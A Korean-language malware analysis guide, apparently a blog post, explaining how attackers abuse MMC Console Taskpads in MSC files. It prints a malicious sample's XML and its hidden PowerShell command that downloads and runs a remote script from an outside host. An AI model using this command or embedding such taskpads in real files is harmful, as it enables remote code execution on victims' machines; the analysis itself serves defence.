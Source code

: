 ```yaml
---
title: '📑 "MSC", Malware Analysis'
date: 2024-12-09 21:00:00 +0900
categories: [Malware Analysis Guide]
tags: [malware_analysis_guide, msc]
render_with_liquid: false
---
```




MSC(Microsoft System Center) 파일은 시스템 관리 및 모니터링에 사용되는 XML 형식의 파일입니다. Microsoft Management Console(mmc.exe)를 사용해 열 수 있으며, 다양한 관리 도구의 저장 및 실행에 사용됩니다. 공격자는 해당 파일이 시스템과 관련된 파일에 사용되는 형식임을 악용하여 사용자가 정상 파일로 착각하도록 유도합니다. 



## <mark>1. MSC 파일</mark>

MSC 파일은 일반적으로 시스템 관리 및 모니터링에 사용되는 파일입니다. 공격자는 해당 사실을 악용하여 사용자가 정상 파일로 착각하도록 유도합니다.

<img src="../images/2024-12-09-MSC-Malware-Analysis/image-20241209220102068.png" alt="image-20241209220102068" style="zoom: 80%;" />

파일을 오픈하게 되면, Microsoft Management Console(mmc.exe)에 의해 실행됩니다.

<img src="../images/2024-12-09-MSC-Malware-Analysis/IMG-msc 분석-20240912113120127-1733738421240-1.png" alt="IMG-msc 분석-20240912113120127" style="zoom: 80%;" />

XML 형식을 사용하기 때문에 텍스트 에디터를 사용하여 파일 내부를 확인할 수 있습니다.

<img src="../images/2024-12-09-MSC-Malware-Analysis/IMG-msc 분석-20240912113201295-1733738425481-3.png" alt="IMG-msc 분석-20240912113201295" style="zoom:67%;" />



## <mark>2. MMC Console Taskpad</mark>

MSC 파일은 MMC Console Taskpad 기능을 사용하여 내부에 명령어를 삽입할 수 있습니다. 공격자는 해당 기능을 사용하여, 사용자가 특정 버튼을 클릭해 악성 스크립트를 실행하도록 유도합니다.

> [!NOTE]   
> 🔗 [MMC Console Taskpad](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/mmc/mmc-console-taskpad)

![IMG-msc 분석-20240912115210945](../images/2024-12-09-MSC-Malware-Analysis/IMG-msc 분석-20240912115210945-1733738436425-5.png)

## <mark>3. 악성 MSC 샘플 분석</mark>

### ▪ 파일 내부 확인

MSC 파일은 XML 형식을 사용하기 때문에 텍스트 에디터를 사용해 내부를 확인할 수 있습니다. ConsoleTaskPads 기능이 존재하는지, 존재한다면 어떤 명령어를 사용하고 있는지 확인합니다.

<img src="../images/2024-12-09-MSC-Malware-Analysis/IMG-msc 분석-20240912113555178-1733738451950-7.png" alt="IMG-msc 분석-20240912113555178" style="zoom: 67%;" />

샘플의 경우, ConsoleTaskpads에 Powershell 명령어가 포함되어 있는 것이 확인되었습니다.

```xml
  <ConsoleTaskpads>
    <ConsoleTaskpad ListSize="Medium" IsNodeSpecific="true" ReplacesDefaultView="true" NoResults="true" DescriptionsAsText="true" NodeType="{C96401CE-0E17-11D3-885B-00C04F72C717}" ID="{656F3A6A-1A63-4FC4-9C9B-4B75AF6DF3A3}">
      <String Name="Name" ID="4"/>
      <String Name="Description" Value=""/>
      <String Name="Tooltip" Value=""/>
      <Tasks>
        <Task Type="CommandLine" Command="powershell.exe">
          <String Name="Name" ID="5"/>
          <String Name="Description" ID="11"/>
          <Symbol>
            <Image Name="Small" BinaryRefIndex="6"/>
            <Image Name="Large" BinaryRefIndex="7"/>
          </Symbol>
          <CommandLine Directory="" WindowState="Minimized" Params="-WindowStyle Hidden -Command iex (iwr -Uri 'https://oshi.at/PTgX/jIML.txt' -UseBasicParsing)"/>
        </Task>
      </Tasks>
      <BookMark Name="TargetNode" NodeID="1"/>
    </ConsoleTaskpad>
  </ConsoleTaskpads>
```

### ▪ 명령어 분석

Powershell 스크립트 파일로 추정되는 jIML.txt 파일을 다운로드 받아 파일 내부에 있는 코드를 실행하는 명령어가 포함되어 있는 것이 확인되었습니다.

```powershell
powershell.exe -WindowStyle Hidden -Command iex (iwr -Uri 'https://oshi.at/PTgX/jIML.txt' -UseBasicParsing)
```

